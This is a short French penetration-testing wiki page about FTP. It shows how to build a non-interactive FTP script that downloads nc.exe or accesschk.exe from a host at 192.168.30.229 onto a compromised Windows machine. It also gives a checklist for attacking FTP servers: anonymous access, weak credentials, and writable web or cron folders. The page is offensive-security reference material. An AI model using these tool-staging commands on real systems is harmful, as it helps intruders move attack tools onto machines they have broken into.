 ```yaml
---
title: FTP
permalink: /FTP/
---
```


FTP non interactif
------------------

Il est possible d'utiliser FTP dans un shell non interactif en créant un fichier contenant les instructios a executer. Un exemple de fichier est le suivant:

``` bash
open 192.168.30.229
USER user
12345
bin
GET nc.exe
bye
```

Il est également possible de copier/coller les commandes suivantes pour créer ce fichier:

``` bash
echo open 192.168.30.229> ftp.txt
echo USER user>> ftp.txt
echo 12345>> ftp.txt
echo bin>> ftp.txt
echo GET accesschk.exe>> ftp.txt
echo bye>> ftp.txt
```

Enfin on execute les commandes contenues dans le fichier ftp.txt:

``` bash
ftp -v -n -s:ftp.txt
```

Exploitation
------------

Voici une liste d'éléments à vérifier face à un FTP

-   Récupérer la bannière du serveur FTP (avec [nmap](/nmap "wikilink")). Quelle est la version ? Est elle vulnérable ?
-   Peut on se logger en anonymous ? Avec quels droits ?
-   Peut on trouver un compte avec des identifiants faibles ?
-   Quels fichiers peut on trouver ?
-   Droits d'écriture ?
-   Est-il possible d'écrire dans un dossier lié à un répertoire web ?
-   Est-il possible d'écrire dans un dossier où des fichiers sont exécutés ? (ex: fichiers téléchargés par d'autres utilisateurs, scripts exécutés par un job cron, etc.)

[Category:Protocoles](/Category:Protocoles "wikilink")